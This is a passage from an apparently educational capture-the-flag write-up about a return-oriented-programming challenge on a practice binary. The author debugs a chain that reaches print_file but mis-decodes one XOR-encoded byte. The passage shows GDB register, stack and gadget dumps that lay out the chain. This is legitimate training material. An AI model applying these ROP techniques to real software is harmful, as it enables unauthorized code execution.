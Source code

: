 Oh dear. We've failed.

Glancing at the output, we can tell that we've managed to ROP our way to `print_file`, but the parameter we've passed to it isn't valid, as the 7th character didn't get un-XORed properly. Welp. At least our ROP chain (mostly) works.

Since our chain failed, we need to write our payload to a temporary file and step through the program in GDB, passing the file to the program as stdin. I'll spare you the details, but once we get to the operation where we write to `.data + 6` (the 6th byte offset from `data`) we see this:

```text
─────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb
$rbx   : 0x0
$rcx   : 0x007ffff7af8257  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x1
$rsp   : 0x007fffffffe030  →  0x00000000400628  →  <usefulGadgets+0> xor BYTE PTR [r15], r14b
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x1
$rdi   : 0x007ffff7bf3570  →  0x0000000000000000
$rip   : 0x000000004006a4  →  <__libc_csu_init+100> ret
$r8    : 0x007ffff7bf3570  →  0x0000000000000000
$r9    : 0x007ffff7fcba80  →  <_dl_fini+0> endbr64
$r10   : 0x007ffff7a00538  →  0x000f001200001a64
$r11   : 0x246
$r12   : 0x919d91cb82848983
$r13   : 0x00000000601028  →  <data_start+0> data16 ins BYTE PTR es:[rdi], dx
$r14   : 0xe5
$r15   : 0x000000006010eb  →   add BYTE PTR [rax], al
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
─────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffe030│+0x0000: 0x00000000400628  →  <usefulGadgets+0> xor BYTE PTR [r15], r14b    ← $rsp
0x007fffffffe038│+0x0008: 0x000000004006a0  →  <__libc_csu_init+96> pop r14
0x007fffffffe040│+0x0010: 0x00000000000000e5
0x007fffffffe048│+0x0018: 0x0000000060102f  →  <data_start+7> xchg ecx, eax
0x007fffffffe050│+0x0020: 0x00000000400628  →  <usefulGadgets+0> xor BYTE PTR [r15], r14b
0x007fffffffe058│+0x0028: 0x000000004006a3  →  <__libc_csu_init+99> pop rdi
0x007fffffffe060│+0x0030: 0x00000000601028  →  <data_start+0> data16 ins BYTE PTR es:[rdi], dx
0x007fffffffe068│+0x0038: 0x00000000400510  →  <print_file@plt+0> jmp QWORD PTR [rip+0x200b0a]
───────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40069e <__libc_csu_init+94> pop    r13
     0x4006a0 <__libc_csu_init+96> pop    r14
     0x4006a2 <__libc_csu_init+98> pop    r15
 →   0x4006a4 <__libc_csu_init+100> ret
   ↳    0x400628 <usefulGadgets+0> xor    BYTE PTR [r15], r14b
        0x40062b <usefulGadgets+3> ret
        0x40062c <usefulGadgets+4> add    BYTE PTR [r15], r14b
        0x40062f <usefulGadgets+7> ret
        0x400630 <usefulGadgets+8> sub    BYTE PTR [r15], r14b
        0x400633 <usefulGadgets+11> ret
```
